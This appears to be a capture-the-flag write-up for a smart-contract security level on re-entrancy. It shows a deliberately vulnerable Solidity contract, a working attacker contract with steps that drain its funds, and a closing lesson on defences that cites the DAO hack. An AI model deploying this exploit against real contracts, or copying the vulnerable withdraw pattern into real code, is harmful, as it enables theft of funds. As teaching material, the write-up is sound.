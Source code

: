 # Re-entrancy
_difficulty 6/10_

The goal of this level is for you to steal all the funds from the contract.  


Things that might help:  
- Untrusted contracts can execute code where you least expect it.  
- Fallback methods  
- Throw/revert bubbling  
- Sometimes the best way to attack a contract is with another contract.  
- See the Help page above, section "Beyond the console"  

## Sources

```javascript
pragma solidity ^0.4.18;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Re-entrancy solution

1. Get current contract address.  
`contract.address`  

2. Using Remix, deploy `ReentrancyAttacker.sol` with current contract address as a parameter.  
```javascript
pragma solidity ^0.4.18;

contract ReentrancyAttacker {
  Reentrance _reentrance;
  uint256 _donated;
  address _thief;

  function ReentrancyAttacker(address reentrance) public payable {
    _reentrance = Reentrance(reentrance);
    _thief = msg.sender;
    _donated = msg.value;
    _reentrance.donate.value(msg.value)(address(this));
  }

  function payday() public {
    uint256 balance = address(this).balance;
    _thief.transfer(balance);
  }

  function withdraw() public payable {
    _reentrance.withdraw(_donated);
  }

  function() public payable {
    uint256 balance = _reentrance.balance;
    if (balance > 0) {
      if (_donated > balance) {
        _reentrance.withdraw(balance);
      } else {
        _reentrance.withdraw(_donated);
      }
    }
  }
}
```

3. Donate 1Eth to the address of the `ReentrancyAttacker` contract.  

4. Call the `withdraw` function. This function will withdraw the donated Ether. The `Reentrancy` contract will try to send Ether to the calling contract address and will invoke the payable fallback function that will attempt to withdraw again, until all funds are stolen.  

5. Check `Reentrancy` contract balance.  
`fromWei(await getBalance(contract.address))`  
0  

5. Call the `payday` function to get Eth from the `ReentrancyAttacker` contract so it's not stuck there forever.  

6. Submit instance 🎉  

## Lesson

Use transfer to move funds out of your contract, since it throws and limits gas forwarded. Low level functions like call and send just return false but don't interrupt the execution flow when the receiving contract fails.  
Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.  
Re-entrancy is a common attack. You should always be prepared for it!  
 
__The DAO Hack__  
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).  
